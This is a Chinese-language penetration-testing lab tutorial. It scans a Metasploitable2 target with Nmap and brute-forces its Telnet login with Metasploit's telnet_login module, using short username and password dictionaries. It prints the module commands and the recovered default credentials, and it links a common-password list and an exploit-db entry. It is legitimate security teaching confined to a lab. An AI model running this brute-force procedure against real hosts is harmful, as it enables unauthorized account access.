




# 利用 Telnet 服务漏洞进行攻击

## 一、实验简介

### 1.1 实验介绍

本实验主要利用 Telnet 服务漏洞进行攻击。实验环境基于实验楼的 Kali 和所要渗透的目标靶机 Metasploitable2。在这次的实验中，将为大家展示，如何通过 MSF 操作，结合渗透扫描，搜索出要渗透的目标主机，并将目标主机攻陷。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

实验通过对实验楼目标靶机 Metasploit 的渗透扫描，找到漏洞 `Telnet` 服务，并选择相应的模块进行渗透攻击。本实验的主要知识点如下：

- Telnet 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击 Telnet 流程
- 验证渗透是否成功的几种方法

### 1.3 实验环境

实验在实验楼的环境中进行，本实验由实验楼提供两台虚拟机，分别是攻击机和目标靶机。这两台虚拟机的主机名称，主机名，以及 IP 地址分别如下：

| 主机     | 主机名称        | 主机名 | IP 地址         |
| -------- | --------------- | ------ | --------------- |
| 攻击机   | Kali Linux 2.0  | Kali   | 192.168.122.101 |
| 目标靶机 | Metasploitable2 | target | 192.168.122.102 |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。

首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：


注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、渗透扫描

### 3.1 漏洞原理

Telnet 服务安全漏洞原理：

> 没有口令保护，远程用户的登陆传送的帐号和密码都是明文，使用普通的 sniffer 都可以被截获没有强力认证过程。只是验证连接者的帐户和密码。
> 没有完整性检查。传送的数据没有办法知道是否完整的，而不是被篡改过的数据。
> 传送的数据都没有加密。

SSH 是一个很好的 telnet 安全保护系统，但是如果是要更严格的保护，你必须使用其他的 telnet 安全产品。

### 3.2 漏洞扫描

渗透扫描在渗透攻击中，占据着非常重要的角色。正所谓磨刀不误砍柴工，想要渗透攻陷对方的目标主机，第一步所要做的事情，就是进行情报搜集，即渗透扫描。

渗透扫描，我们一般使用扫描神器 Nmap 对即将要渗透的目标主机的端口进行扫描。其中，Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

好了，接下来，我们首先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下：

```
# 打开 postgresql 服务
sudo service postgresql start

```


接着在实验楼的 Kali 终端中，输入命令，打开 MSF 终端：

```
# 打开终端 MSF
sudo msfconsole
```


使用扫描神器 Nmap 对渗透的目标主机，进行扫描：

```
# 使用 nmap 进行扫描
nmap -sV -T4 target
```


| 参数  | 参数所代表含义                                               |
| ----- | ------------------------------------------------------------ |
| `-sV` | 扫描目标主机端口，并显示详细端口信息                         |
| `-T4` | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |


### 3.3 对扫描结果进行分析

由渗透扫描的结果可知，我们所要攻击的 `telnet` 服务的端口状态为开放状态，其端口号为 `23` ,端口的标准信息为：`Linux telnetd` ，下面我们将在 MSF 终端中，搜索相应的模块信息，以便方便后续的漏洞查找：

```
# 使用 search 模块对模块进行搜索

# 如果大家在这一步搜索的结果特别慢也不要担心，老师已经将搜索结果截图给大家看了，这一步不会影响后续的操作

# 这一步操作，只是为了让实验的同学，更清楚地知道有这么一个过程，search 搜索结果截图如下

search scanner/telnet
```


使用 use 命令，使用相应的 auxiliary/scanner/telnet/telnet_login 模块：

```
# 使用 use 命令，使用相应的漏洞模块
use auxiliary/scanner/telnet/telnet_login
```


使用命令 show options 查看模块属性名：

```
# 使用命令查看模块属性名
show options
```




由搜索的结果可看出，我们需要设置的参数为 `RHOSTS`。由于需要对登录模块进行爆破，所以这里我们需要账号密码字典。

在平常的网络渗透中，有一种破解是流程是这样的：


而其中所泄露的密码字典，需要我们自己收集。既然大家学习了这门课程，老师送大家一个小彩蛋。这里是常见的密码字典一万个：

> https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/10k_most_common.txt


图中的密码，右键保存，即可在密码渗透登陆中使用。

在这个实验中，由于时间问题，没办法进行大规模的数据匹配，所以我们只能大致演示上述攻击流程：

得到字典 ==>  选择漏洞服务 ==>  密码匹配 ==>  获得权限

重新在实验楼中打开命令行终端：

```
# 连接 Kali 终端
sudo ssh Kali
```

登录 Kali 后编写用户名文件 `username.txt`，在文件 `username.txt` 文件中，添加如下内容，作为我们的用户名字典：

```
123456
admin
msfadmin
root
kali
```

编写我们的密码文件字典 `password.txt`，文件内容如下，如图所示：
```
abc123
1234
123456
root
msfadmin
admin
toor
```




正常的渗透攻击中，字典的数量不可能这么少，这里只是为了演示这个过程，其中的数据字典，需要我们自己在日常的练习中，不断的收集。

弄好账号和密码字典后，我们回到 MSF 终端中，设置参数，准备进行渗透攻击：

分别设置所要渗透的目标主机参数，设置文件名，和账号名文件：

```
# 设置目标渗透主机
set RHOSTS 192.168.122.102

# 设置账户名字典
set USER_FILE username.txt

# 设置密码字典
set PASS_FILE password.txt
```




## 四、渗透攻击

### 4.1 渗透攻击

最后一步，输入命令，进行渗透攻击：

```
# 进行渗透攻击
exploit
```



由图可以看出，MSF 不断地使用我们提供的账户和密码字典，进行匹配登录，一旦发现可行的密码，则会出现绿色的标志。这个标志标明着该密码可用。

我们这里可行的账号和密码为：`msfadmin/msfadmin`

数据量越大，则跑的时间越久。所以在平常的网站登录中，我们的密码不要过于简单和重复。不然很容易地被黑客所利用。


## 五、总结

### 5.1 实验总结

在这一小节中，我们使用了字典爆破登录。一般来说，这些字典都是平常我们日常收集的。在黑客攻击我们的电脑的时候，就是使用所收集到的密码，进行攻击。所以我们的密码不要每一个网站，都是一样的。

在学完这个课程后，你至少明白了这些知识点：

- Telnet 漏洞原理
- Nmap 渗透扫描基础
- Metasploit 攻击 Telnet 流程，使用字典进行暴力登录
- 渗透成功后输入命令进行验证

## 六、推荐阅读

### 6.1 推荐阅读

本实验中演示的 Telnet 的服务漏洞，也是黑客比较常攻击的一种方式。因此在平时的使用密码的过程中，注意保护我们自己的密码，尽量不要使用同一密码登录不同网站。一些重要的站点所使用的密码，也需要不断地更新。这样才能提高我们自己账户的安全性。

> https://www.offensive-security.com/metasploit-unleashed/scanner-telnet-auxiliary-modules/

还有另外一个，也是英文的代码模块，可以借鉴一下：

> https://www.exploit-db.com/exploits/18280/

以及中文的漏洞代码文档：

> http://bobao.360.cn/learning/detail/210.html

## 七、课后作业

### 7.1 课后作业

该实验，主要讲述了漏洞 Telnet 服务漏洞的原理，以及其登录和攻击过程，在这个过程中，实验的同学，要学会不断的加强理论基础的同时，还要提高自己的动手能力。只有在学习的过程中，不断的理解漏洞原理，才能够更好地学好渗透。本实验的课后作业如下：

- 掌握 Telnet 的漏洞原理
- 掌握攻击 Telnet 的流程步骤
- 阅读推荐文档（可选）

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。